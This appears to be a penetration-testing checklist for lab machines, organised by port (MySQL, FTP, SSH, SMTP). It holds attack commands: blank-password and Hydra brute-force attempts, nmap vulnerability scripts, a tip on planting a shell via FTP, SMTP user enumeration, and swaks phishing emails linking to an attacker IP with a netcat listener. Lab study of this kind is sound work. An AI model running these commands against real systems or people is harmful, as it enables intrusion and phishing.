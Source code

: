 **3389 port allows us for RDP conncetion.**

### Port 3306
- [ ] Check for Default passwords: root: blank password
- [ ] Bruteforce 
- [ ] Check if it is connceting to your machine and if yes then 
	- [ ] Start your server locally and then create a user and database [Admirer HTB]


### Port 21
- [ ] Check for anonymous login
	- [ ] Secrets in directory
	- [ ] Directory is accessible by web so you can put shell and get reverse connection.
- [ ] Search the version in **searchsploit**
- [ ] Try the credentials if you have them.
- [ ] Nmap scan
	```bash
    nmap –script ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221,tftp-enum -p 21 10.0.0.1
	```



### Port 22
- [ ] Run nmap ssh NSE scripts.
- [ ] Check for default passwords
- [ ] Try credentials if you have any.
- [ ] [Predictable Private key](https://github.com/g0tmi1k/debian-ssh).
- [ ] [Public key with weak crypto](https://github.com/Ganapati/RsaCtfTool).
- [ ] **(Last option)**Check if they have weak credential try bruteforce iva Hydra `hydra -L users.txt -P pass.txt -t 10 <IP address> ssh -s 22`

### Port 25
- [ ] User enumeration.
```bash
nc 10.11.1.217 25
VRFY root
252 2.0.0 root
VRFY idontexist
550 5.1.1 <idontexist>: Recipient address rejected: User unknown in local recipient table
```
- [ ] User enum with nmap
	```bash
	sudo nmap --script smtp-enum-users 10.10.10.51 -p25
	```
- [ ] [[smpt-vrfy-user.py]]
- [ ] Nmap scan
	```bash
    sudo nmap -–script smtp-commands,smtp-enum-users,smtp-vuln-cve2010-4344,smtp-vuln-cve2011-1720,smtp-vuln-cve2011-1764 -p 25 10.0.0.1
	```
- [ ] If you have =emails then try phishing them=
	```bash
	# Multiple
	swaks --to $(cat emails | tr '\n' ',' | less) --from test@sneakymailer.htb --header "Subject: test" --body "please click here http://10.10.14.42/" --server 10.10.10.197
	# Single
	swaks --to sales@humongousretail.com --from it@humongousretail.com --header "Subject: test" --body "please click here http://10.10.14.14/" --server 10.10.10.197
	```
	- Start the netcat -nvlp at port 80.